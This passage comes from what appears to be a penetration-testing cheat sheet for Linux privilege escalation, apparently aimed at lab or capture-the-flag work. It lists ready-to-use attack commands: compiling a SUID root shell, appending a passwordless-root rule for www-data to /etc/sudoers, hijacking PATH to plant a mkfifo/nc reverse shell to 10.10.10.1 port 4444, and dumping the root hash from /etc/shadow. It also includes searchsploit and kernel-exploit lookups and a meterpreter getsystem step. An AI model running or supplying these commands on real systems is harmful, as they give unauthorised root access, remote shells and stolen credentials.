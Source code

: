               Building the SUID Shell binary  
              gcc -o suid suid.c  
              For 32 bit:  
              gcc -m32 -o suid suid.c
 
    -   Create and compile an SUID from a limited shell (no file transfer)  
       
              echo "int main(void){\nsetgid(0);\nsetuid(0);\nsystem(\"/bin/sh\");\n}" >privsc.c  
              gcc privsc.c -o privsc
 
-   Handy command if you can get a root user to run it. Add the www-data user to Root SUDO group with no password requirement:
 
    `echo 'chmod 777 /etc/sudoers && echo "www-data ALL=NOPASSWD:ALL" >> /etc/sudoers && chmod 440 /etc/sudoers' > /tmp/update`
   
-   You may find a command is being executed by the root user, you may be able to modify the system PATH environment variable
    to execute your command instead.  In the example below, ssh is replaced with a reverse shell SUID connecting to 10.10.10.1 on
    port 4444.
   
         set PATH="/tmp:/usr/local/bin:/usr/bin:/bin"
         echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.1 4444 >/tmp/f" >> /tmp/ssh
         chmod +x ssh
 
-   SearchSploit  
 
              searchsploit –uncsearchsploit apache 2.2  
              searchsploit "Linux Kernel"  
              searchsploit linux 2.6 | grep -i ubuntu | grep local  
              searchsploit slmail
 
 -   Kernel Exploit Suggestions for Kernel Version 3.0.0  
 
     `./usr/share/linux-exploit-suggester/Linux_Exploit_Suggester.pl -k 3.0.0`
 
-   Precompiled Linux Kernel Exploits  - ***Super handy if GCC is not installed on the target machine!***
 
    [*https://www.kernel-exploits.com/*](https://www.kernel-exploits.com/)    
 
-   Collect root password
 
    `cat /etc/shadow |grep root`
   
-   Find and display the proof.txt or flag.txt - LOOT!
 
            cat `find / -name proof.txt -print`
 
-   Windows Privilege Escalation
    --------------------------------------------------------------------------------------------------------------------------
 
-   Windows Privilege Escalation resource
    http://www.fuzzysecurity.com/tutorials/16.html
 
-   Try the getsystem command using meterpreter - rarely works but is worth a try.
 
    `meterpreter > getsystem`
 